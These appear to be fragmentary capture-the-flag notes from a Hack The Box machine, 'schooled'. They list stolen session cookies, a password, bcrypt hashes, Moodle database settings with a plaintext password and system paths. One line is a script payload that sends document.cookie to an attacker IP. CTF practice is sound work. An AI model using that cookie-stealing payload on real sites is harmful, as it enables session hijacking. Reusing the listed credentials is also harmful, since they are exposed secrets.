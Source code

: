 ```python

}

COOKIES : 
Sid - eaqf9598r31tvpr6cq8362i1u8
Manuel Phillips - vvpj5s0tjh14ju1vi5p2l7ef18

sid
Abc12345678@

<script>location="http://10.10.14.115:7676?"+document.cookie</script>

http://moodle.schooled.htb/moodle/user/edit.php?id=23&course=1

$2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2     -    root@localhost
$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW     -    jamie@staff.schooled.htb 

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (

/usr/local/share/doc/sudo
/usr/local/bin/sudo
/usr/tests
/usr/local/man/mandoc.db

/usr/local/bin/sqlite3
/usr/include/private/sqlite3
/usr/include/private/sqlite3
/usr/local/bin/mysql
/usr/local/bin/mysqlxtest
/usr/local/bin/mysqltest

/var/run/sudo
/var/db/sudo
/usr/local/bin/sudo
```
